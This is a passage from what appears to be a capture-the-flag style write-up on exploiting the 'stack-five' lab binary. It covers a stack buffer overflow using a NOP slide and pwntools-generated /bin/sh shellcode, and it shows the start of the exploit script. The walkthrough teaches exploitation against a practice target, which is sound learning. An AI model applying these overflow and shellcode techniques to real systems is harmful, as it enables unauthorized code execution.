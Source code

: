 ```bash
```

The address we are interested in is the last one (`ret`) which is `0x4005cd` we don't need to grab the extra 0s because pwntools knows it is a 64-bit program and will treat it accordingly.

Now we run program normally with normal input and it stops at the breakpoint. 

From here we use `info registers` to look at the registers

```bash
gef➤  info registers
...
...
rsp            0x7fffffffebe8      0x7fffffffebe8
...
...
gef➤
```

This address is the stack address. We can now update that in the exploit.

```python
rip = p64(0x7fffffffebe8 + 40) # new rip -> rsp
```

{{< admonition tip >}}
Notice I am also adding `+ 40` to the address just to make sure we hit our nop slide.
{{< /admonition >}}

### Step 2 - nop slide

This part is pretty simple. The opcode of a nop instruction is 0x90. We use that as a raw byte in the code as `\x90`

```python
nop_slide = b'\x90' * 100
```

### Part 3 - Shellcode

For this part we can find shellcode to execute `exevce("/bin/sh")` for an amd64 linux system online. But I am going to use `shellcraft` from the pwntools library to generate the shellcode.

```python
shellcode = asm(shellcraft.linux.sh())
```

I did not have to specify architecture becuase I set the context at the start of the script.

The output of that line will be be the raw shellcode bytes resturned by `asm()`. The output of `shellcraft.linux.sh()` is the assembly code for executing `execve("/bin/sh")`.

# Exploiting

Now that we have the payload set up, the final exploit will be:

```python
#!/usr/bin/env python3

from pwn import *

# Defining binary
exe = context.binary = ELF('./stack-five', checksec=False)
p = process(exe.path)
context.update(arch="amd64")

# The offset and padding we need to overflow the buffer
OFFSET  = 136
PADDING = b'A' * OFFSET

```